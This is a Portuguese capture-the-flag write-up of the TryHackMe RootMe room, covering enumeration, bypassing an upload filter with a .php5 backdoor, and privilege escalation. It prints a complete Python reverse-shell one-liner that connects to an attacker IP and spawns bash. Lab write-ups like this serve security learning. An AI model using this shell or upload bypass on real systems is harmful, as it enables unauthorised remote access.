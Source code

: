 # RootMe

# Dificuldade : Fácil

<h1>Dessa vez um CTF de dificuldade fácil, porém, diria que é essencial pra entender o processo de bypass file upload.</h1>

A maquina [RootMe](https://tryhackme.com/room/rrootme) tem foco em web-security, Linux exploration, and Privilege Escalation

## Enumeração

![Nmap Resultado](https://user-images.githubusercontent.com/32500664/142517453-fc77cdbb-275c-48a1-925c-5efbcad1c6ed.png)


# Porta 80

![SitePanel2](https://user-images.githubusercontent.com/32500664/142517480-59322c9d-925d-4a74-9a0a-aca0c49ca93d.png)

# Directory fuzzing

![fuufResult](https://user-images.githubusercontent.com/32500664/142517501-c73e2c23-bfdb-4b62-ba1f-21582173fb23.png)

# Upload Reverse shell Script

<h4>Tentando upar script backdoor em PHP</h4>

**Pesquisando formas de "Bypassar" esse arquivo no [Hacktricks](https://book.hacktricks.xyz/pentesting-web/file-upload)**

![ListaBypass](https://user-images.githubusercontent.com/32500664/142534496-e4b45797-bd9b-47bb-a59a-17c1cf4ef28f.png)

<h4>Mudando extensão e upando script</h4>

![shellzinha](https://user-images.githubusercontent.com/32500664/142519820-82eaf5c6-38ab-409f-b3d5-212fe2745198.png)

![5-php5](https://user-images.githubusercontent.com/32500664/142520719-46b85125-d397-4d1c-96ac-96c95983c029.png)

![foi](https://user-images.githubusercontent.com/32500664/142519919-15e4bd42-fa8e-49f3-93dc-098d6b4f9425.png)

![FUNCIONA](https://user-images.githubusercontent.com/32500664/142519962-2134cae5-690a-4680-bbd6-437e4292a628.png)

<h2> Com o script funcionando vamos verificar se a maquina roda python e se sim finalmente rodar o comando da reverse shell </h2>

![Python3Veri](https://user-images.githubusercontent.com/32500664/142526677-9f7dedeb-4934-495a-b11a-eb99b8c786d5.png)

Python presente!!

![CriandoShell](https://user-images.githubusercontent.com/32500664/142527323-dcee4a7f-660e-4a55-a919-a99d3874ab57.png)

Se conectando á IP-da-maquina/uploads/simple-backdoor.php5?cmd={REVERSE-SHELL-SCRIPT}

> O script que eu usei foi --- python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.2.82.32",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

![Oia a shell ai](https://user-images.githubusercontent.com/32500664/142528324-a329bbd8-29d5-453b-8185-58e7bf28ed0a.png)

Normalmente a user flag fica na home de um usuário comum da maquina, mas... cade ?

# Encontrando e capturando a user flag
Utilizando o comando [find / -type f -name user.txt] para encontrar e capturar a flag.

![Inkedfind_LI](https://user-images.githubusercontent.com/32500664/142541783-61212da6-7692-4b8d-a264-69d69bfe49aa.jpg)

# Escalando privilégios

![AbrindoServerHttp](https://user-images.githubusercontent.com/32500664/142542700-7abaf116-5ad0-4625-af6a-1122f39bf803.png)

![ComandoLinpeas](https://user-images.githubusercontent.com/32500664/142542775-5c6cb03f-c98d-44ae-99d5-5e1e83f0fafc.png)

![InkedSetáDestacadoÉporqÉimportante_LI](https://user-images.githubusercontent.com/32500664/142543063-eb46b6e3-9204-452b-b8cb-50a1be8c67fc.jpg)

![GtfoPyt](https://user-images.githubusercontent.com/32500664/142547118-2f7c6186-a328-416c-89da-cd327e43a4c4.png)

<h4>Lendo Root flag</h4>

![0_bYLorplRkDHoTjoa](https://user-images.githubusercontent.com/32500664/142551835-a07f5505-c8c4-4ba6-8b2c-2272f9ce872e.png)

